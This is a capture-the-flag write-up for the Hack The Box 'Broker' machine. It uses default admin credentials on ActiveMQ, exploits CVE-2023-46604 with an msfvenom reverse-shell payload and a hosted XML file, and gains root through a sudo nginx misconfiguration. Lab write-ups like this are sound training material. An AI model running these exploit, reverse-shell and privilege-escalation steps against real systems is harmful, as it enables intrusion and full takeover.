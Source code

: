 ```yaml
---
title : Broker
---
```


This is a retired Linux box from Hack The Box.

`Date : 21 Dec 2023 Thursday`

### Recon

#### Nmap 

```
nmap --min-rate 1000 -p- -Pn 10.129.230.87 -oN nmap_tcp.txt
```

Output : 

![Screenshot from 2023-12-21 14-23-15](https://github.com/kris3c/kris3c.github.io/assets/128035061/75531d30-1c01-4798-8f6c-b0cffe8950b7)



So we can see different ports are open on the machine lets start with port 80.

![Screenshot 2023-12-21 at 14-25-41 Apache ActiveMQ](https://github.com/kris3c/kris3c.github.io/assets/128035061/8369e271-641a-44ca-a626-a16848659c28)

so we can see here ActiveMQ is running lets check the version 

Visiting /admin endpoint 

Trying with default credentials 

```
Username: Admin
Password : Admin
```

It worked

![Screenshot 2023-12-21 at 14-29-10 localhost ActiveMQ Console](https://github.com/kris3c/kris3c.github.io/assets/128035061/99b34b74-bdd4-4871-b0e6-6c69a870c53b)

we can see the version of the activemq that is **5.15.15**

### Shell as activemq 

Upon Searching for exploit related to this version i came across this repo: 

[CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

By following the instruction we can easily get the shell :

```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```

```
python3 -m http.server
```

Edit the file poc-linux.xml and adress for the poc-linux.xml 

```
go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:$RPORT/poc-linux.xml
```


### Privilege escalation

```
sudo -l 
```

![Screenshot from 2023-12-21 14-37-13](https://github.com/kris3c/kris3c.github.io/assets/128035061/aca8b287-5bc0-4e5a-a830-d9521dea4395)

we can execute the nginx with root privileges so let's start a web server which give is root access to the server on which it is running

```
cat /etc/nginx/nginx.conf | grep -v "/#" 
```

```
cat /etc/nginx/sites-enabled/default 
```

make a file on your system 

```
nano nginx.conf
```

```
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
	worker_connections 768;
}

http {
	server {
    		listen 1337;
    		location / {
    			root /;
    		}
        
      }
}

```

start python server 

```
python -m http.server
```

Download it on the machine in the /dev/shm directory

```
wget http://$RHOST:8000/nginx.conf
```

start the server

```
sudo nginx -c /dev/shm/nginx.conf
```

download the flag :

```
 curl http://localhost:1337/root/root.txt
```
